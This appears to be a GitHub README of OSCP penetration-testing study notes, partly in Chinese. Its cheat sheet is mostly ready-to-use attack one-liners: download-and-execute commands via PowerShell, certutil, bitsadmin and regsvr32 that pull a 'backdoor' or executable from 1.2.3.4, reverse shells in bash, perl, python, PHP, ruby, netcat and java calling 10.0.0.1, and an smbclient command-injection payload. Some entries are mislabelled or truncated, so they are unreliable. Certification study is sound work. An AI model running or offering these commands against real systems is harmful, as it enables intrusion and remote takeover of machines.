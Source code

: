 # OSCP learning

## 官方

* [官方考试说明](https://www.lshack.cn/wp-content/uploads/2019/02/lshack.cn_2019-02-12_09-29-54.pdf)
* [PWK FAQ](https://support.offensive-security.com/#!pwk-general-questions.md)
* [OSCP exam FAQ](https://support.offensive-security.com/oscp-faq/)
* [IRC](https://www.offensive-security.com/offsec-irc-guide/)

## 考试报名

## 资料链接

* [windows exploit](https://github.com/abatchy17/WindowsExploits)
* [OSCP like vulnhub](https://medium.com/@andr3w_hilton/oscp-training-vms-hosted-on-vulnhub-com-22fa061bf6a1)
* [OSCP official report](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf)
* [smb 枚举](https://xax007.github.io/2019-01-12-smb-enumeration-checklist/)
* [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## cheetsheet 

### linux 提权

### windows 提权



### File transfer

#### python

```python
python -m SimpleHTTPServer 8000
```

#### php 5.4+

```php
php -S 0.0.0.0:8000
```

#### ruby

```ruby
ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 1337, :DocumentRoot => Dir.pwd).start'
```

#### runby 1.9.2+

```ruby
 ruby -run -e httpd . -p 1337
 ```
 
 #### perl
 
 ```perl
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mount("/"=>{path=>"."}); $s->start'
```

```perl
perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |"
```

### Download Files

#### powershell: download and execute

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://1.2.3.4/5.exe','c:\download\a.exe');start-process 'c:\download\a.exe'
```

#### certutil: download and execute

```
certutil -urlcache -split -f http://1.2.3.4/5.exe c:\download\a.exe&&c:\download\a.exe
```

#### bitsadmin：download and execute 

```
bitsadmin /transfer n http://1.2.3.4/5.exe c:\download\a.exe && c:\download\a.exe
```

#### regsvr32

```
regsvr32 /u /s /i:http://1.2.3.4/5.exe scrobj.dl
```

#### curl 

```
curl http://1.2.3.4/backdoor
```

#### wget

```
curl http://1.2.3.4/backdoor
```

#### awk

```
awk 'BEGIN {
  RS = ORS = "\r\n"
  HTTPCon = "/inet/tcp/0/127.0.0.1/1337"
  print "GET /secret.txt HTTP/1.1\r\nConnection: close\r\n"    |& HTTPCon
  while (HTTPCon |& getline > 0)
      print $0
  close(HTTPCon)
}'
```
[more](https://xax007.github.io/2019-01-13-post-exploitation-file-transfer-tips/)

### 反弹 shell

#### smbclient

```
logon "./=`nohup nc 10.10.16.44 1234 -e /bin/bash`"
```

#### Bash 

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

#### PERL 

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python(2.7)

```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

#### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

#### Netcat

`nc -e /bin/sh 10.0.0.1 1234`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm 

`xterm -display 10.0.0.1:1`


### nmap 

#### 端口探测

```
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

```
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

### 常用命令

#### 编译 windows 执行程序

```
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
```

  
